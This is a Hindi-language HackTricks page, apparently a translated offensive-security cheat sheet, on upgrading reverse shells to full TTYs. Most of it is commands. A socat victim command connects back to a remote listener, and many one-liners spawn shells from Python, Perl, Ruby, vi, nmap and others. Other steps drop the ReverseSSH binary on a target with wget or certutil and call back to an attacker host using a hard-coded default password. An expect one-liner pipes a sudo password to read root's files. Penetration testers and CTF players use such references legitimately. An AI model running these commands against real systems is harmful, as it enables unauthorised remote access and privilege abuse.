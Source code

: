 # Full TTYs

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Full TTY

ध्यान दें कि `SHELL` वेरिएबल में सेट किया गया शेल **ज़रूर** _**/etc/shells**_ के अंदर **सूचीबद्ध** होना चाहिए या `The value for the SHELL variable was not found in the /etc/shells file This incident has been reported`। इसके अलावा, ध्यान दें कि अगले स्निप्पेट्स केवल बैश में काम करते हैं। यदि आप ज़श में हैं, तो शेल प्राप्त करने से पहले `bash` चलाकर बैश में बदलें।

#### Python

{% code overflow="wrap" %}
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

{% hint style="info" %}
आप **`stty -a`** चलाकर **पंक्तियों** और **स्तंभों** की **संख्या** प्राप्त कर सकते हैं।
{% endhint %}

#### स्क्रिप्ट

{% code overflow="wrap" %}
```bash
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

#### socat
```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
### **शेल उत्पन्न करें**

* `python -c 'import pty; pty.spawn("/bin/sh")'`
* `echo os.system('/bin/bash')`
* `/bin/sh -i`
* `script -qc /bin/bash /dev/null`
* `perl -e 'exec "/bin/sh";'`
* perl: `exec "/bin/sh";`
* ruby: `exec "/bin/sh"`
* lua: `os.execute('/bin/sh')`
* IRB: `exec "/bin/sh"`
* vi: `:!bash`
* vi: `:set shell=/bin/bash:shell`
* nmap: `!sh`

## ReverseSSH

**इंटरैक्टिव शेल एक्सेस**, साथ ही **फाइल ट्रांसफर** और **पोर्ट फॉरवर्डिंग** के लिए एक सुविधाजनक तरीका है लक्षित पर स्थिर-लिंक्ड ssh सर्वर [ReverseSSH](https://github.com/Fahrj/reverse-ssh) को छोड़ना।

नीचे `x86` के लिए एक उदाहरण है जिसमें upx-संपीड़ित बाइनरी हैं। अन्य बाइनरी के लिए, [रिलीज़ पृष्ठ](https://github.com/Fahrj/reverse-ssh/releases/latest/) देखें।

1. ssh पोर्ट फॉरवर्डिंग अनुरोध को पकड़ने के लिए स्थानीय रूप से तैयार करें:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -v -l -p 4444
```
{% endcode %}

* (2a) लिनक्स लक्ष्य:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -p 4444 kali@10.0.0.2
```
{% endcode %}

* (2b) Windows 10 लक्ष्य (पुरानी संस्करणों के लिए, [प्रोजेक्ट रीडमी](https://github.com/Fahrj/reverse-ssh#features) देखें):

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
certutil.exe -f -urlcache https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86.exe reverse-ssh.exe

reverse-ssh.exe -p 4444 kali@10.0.0.2
```
{% endcode %}

* यदि ReverseSSH पोर्ट फॉरवर्डिंग अनुरोध सफल रहा, तो आप अब `reverse-ssh(.exe)` चला रहे उपयोगकर्ता के संदर्भ में डिफ़ॉल्ट पासवर्ड `letmeinbrudipls` के साथ लॉग इन करने में सक्षम होना चाहिए:
```bash
# Interactive shell access
ssh -p 8888 127.0.0.1

# Bidirectional file transfer
sftp -P 8888 127.0.0.1
```
## Penelope

[Penelope](https://github.com/brightio/penelope) स्वचालित रूप से Linux रिवर्स शेल को TTY में अपग्रेड करता है, टर्मिनल के आकार को संभालता है, सब कुछ लॉग करता है और बहुत कुछ। यह Windows शेल के लिए readline समर्थन भी प्रदान करता है।

![penelope](https://github.com/user-attachments/assets/27ab4b3a-780c-4c07-a855-fd80a194c01e)

## No TTY

यदि किसी कारणवश आप पूर्ण TTY प्राप्त नहीं कर सकते हैं, तो आप **अभी भी उन कार्यक्रमों के साथ इंटरैक्ट कर सकते हैं** जो उपयोगकर्ता इनपुट की अपेक्षा करते हैं। निम्नलिखित उदाहरण में, पासवर्ड `sudo` को एक फ़ाइल पढ़ने के लिए पास किया जाता है:
```bash
expect -c 'spawn sudo -S cat "/root/root.txt";expect "*password*";send "<THE_PASSWORD_OF_THE_USER>";send "\r\n";interact'
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
